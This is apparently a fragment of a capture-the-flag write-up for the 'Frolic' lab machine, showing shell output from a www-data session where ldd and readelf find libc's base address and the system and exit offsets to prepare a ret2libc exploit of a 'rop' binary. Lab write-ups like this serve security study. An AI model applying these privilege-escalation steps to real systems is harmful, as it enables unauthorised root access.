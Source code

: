 

![](2021-02-19-15-14-38.png)


good = \x01\x02\x03\x04\x05\x06\x07\x08


https://github.com/david942j/one_gadget


www-data@frolic:/home/ayush/.binary$ ldd rop
ldd rop
        linux-gate.so.1 =>  (0xb7fda000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)
        /lib/ld-linux.so.2 (0xb7fdb000)


www-data@frolic:/home/ayush/.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i system
</.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i system         
   245: 00112f20    68 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   627: 0003ada0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0



www-data@frolic:/home/ayush/.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i exit
</.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i exit           
   112: 0002edc0    39 FUNC    GLOBAL DEFAULT   13 __cxa_at_quick_exit@@GLIBC_2.10
   141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
   450: 0002edf0   197 FUNC    GLOBAL DEFAULT   13 __cxa_thread_atexit_impl@@GLIBC_2.18
   558: 000b07c8    24 FUNC    GLOBAL DEFAULT   13 _exit@@GLIBC_2.0
   616: 00115fa0    56 FUNC    GLOBAL DEFAULT   13 svc_exit@@GLIBC_2.0
   652: 0002eda0    31 FUNC    GLOBAL DEFAULT   13 quick_exit@@GLIBC_2.10
   876: 0002ebf0    85 FUNC    GLOBAL DEFAULT   13 __cxa_atexit@@GLIBC_2.1.3
  1046: 0011fb80    52 FUNC    GLOBAL DEFAULT   13 atexit@GLIBC_2.0
  1394: 001b2204     4 OBJECT  GLOBAL DEFAULT   33 argp_err_exit_status@@GLIBC_2.1
  1506: 000f3870    58 FUNC    GLOBAL DEFAULT   13 pthread_exit@@GLIBC_2.0
  1849: 000b07c8    24 FUNC    WEAK   DEFAULT   13 _Exit@@GLIBC_2.1.1
  2108: 001b2154     4 OBJECT  GLOBAL DEFAULT   33 obstack_exit_failure@@GLIBC_2.0